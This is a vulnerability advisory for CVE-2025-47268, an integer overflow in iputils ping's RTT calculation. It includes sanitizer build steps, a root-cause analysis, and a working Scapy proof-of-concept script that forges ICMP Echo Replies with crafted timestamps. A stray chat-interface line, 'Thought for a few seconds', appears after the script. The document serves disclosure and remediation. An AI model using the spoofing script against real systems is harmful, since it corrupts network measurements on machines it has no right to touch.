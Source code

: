 
# ping\_rtt overflow

## Summary

A crafted ICMP Echo Reply can trigger a signed 64-bit integer overflow in iputils `ping` RTT calculation. By forging the timestamp field in the ICMP payload to be sufficiently large, the multiplication of seconds by 1,000,000 exceeds the signed `long` range, causing undefined behavior. Under AddressSanitizer (ASan), this is detected as a runtime error. In non ASan builds it wraps silently and clamps to zero, resulting in repeated zero-RTT readings and incorrect statistics.

## Affected Versions
iputils through version 20240905
## CVE ID
CVE-2025-47268 (Assigned 5/5/2025)

## Environment

* Distribution: Ubuntu 24.04.1 LTS (Noble Numbat)
* Kernel: 5.15.167.4-microsoft-standard-WSL2
* Architecture: x86\_64

## Steps to Reproduce

1. **Export ASan/UBSan build flags**

   ```sh
   export CFLAGS="-std=c99 -O1 -g -fsanitize=address,undefined -fno-omit-frame-pointer"
   export CXXFLAGS="$CFLAGS"
   export LDFLAGS="-fsanitize=address,undefined -fno-omit-frame-pointer"
   ```

2. **Clone and build iputils with sanitizers**

   ```sh
   git clone https://github.com/iputils/iputils.git
   cd iputils
   mkdir builddir-asan && cd builddir-asan
   meson .. -Db_sanitize=address,undefined
   ninja
   ```
3. In one terminal, start the PoC listener script (`poc.py`):

   ```sh
   sudo ./poc.py
   ```
4. In another terminal, run ping:

   ```sh
   sudo ./ping/ping -R -s 64 127.0.0.1
   ```
5. Observe signed-integer-overflow errors from ASan:

   ```
   ../ping_common.c:757: runtime error: signed integer overflow
   ```



https://github.com/user-attachments/assets/b218971e-fbdc-478e-a0ae-ef77540332be


## Root Cause Analysis

In `ping_common.c`, the code does:

```c
/* normalize recv_time - send_time */
tvsub(&tv, &tmp_tv);
/* compute microseconds */
triptime = tv->tv_sec * 1000000 + tv->tv_usec
```

Because `tv->tv_sec` is a signed 64-bit `long` and attacker controls it via the ICMP payload, multiplying by 1,000,000 can exceed `LONG_MAX`, causing signed overflow (CWE-190). The code does not check for overflow before or after the multiplication.

## PoC Script (`poc.py`)

```python
#!/usr/bin/env python3
from scapy.all import IP, ICMP, Raw, send, sniff, bind_layers
import time, struct, sys, os

LISTEN_INTERFACE = "lo"
TARGET_IP = "127.0.0.1"
FUTURE_OFFSET_SEC = 1.0

bind_layers(ICMP, Raw)

def process_packet(pkt):
    if not (pkt.haslayer(IP) and pkt.haslayer(ICMP)):
        return
    ip = pkt[IP]
    ic = pkt[ICMP]
    if ic.type != 8:
        return

    fut = time.time() + FUTURE_OFFSET_SEC
    sec = int(fut)
    usec = int((fut - sec) * 1_000_000)

    data = struct.pack('=ll', sec, usec)
    data += b'Z'*8   # padding to force full timeval read and overflow

    reply = (
        IP(src=ip.dst, dst=ip.src) /
        ICMP(type=0, code=0, id=ic.id, seq=ic.seq) /
        Raw(load=data)
    )

    print(f"sending id={ic.id} seq={ic.seq} sec={sec} usec={usec} len={len(data)}")
    send(reply, iface=LISTEN_INTERFACE, verbose=False)


def main():
    if os.geteuid() != 0:
        sys.exit("need root")
    filt = f"icmp and icmp[icmptype] = icmp-echo and host {TARGET_IP}"
    print(f"listening on {LISTEN_INTERFACE} for {TARGET_IP}")
    sniff(iface=LISTEN_INTERFACE, filter=filt, prn=process_packet, store=0)

if __name__=='__main__':
    main()
```

Thought for a few seconds


---
### Discovered & Reported By

**Name:** Mohamed Maatallah

**Email:** [hotelsmaatallahrecemail@gmail.com](mailto:hotelsmaatallahrecemail@gmail.com)

---

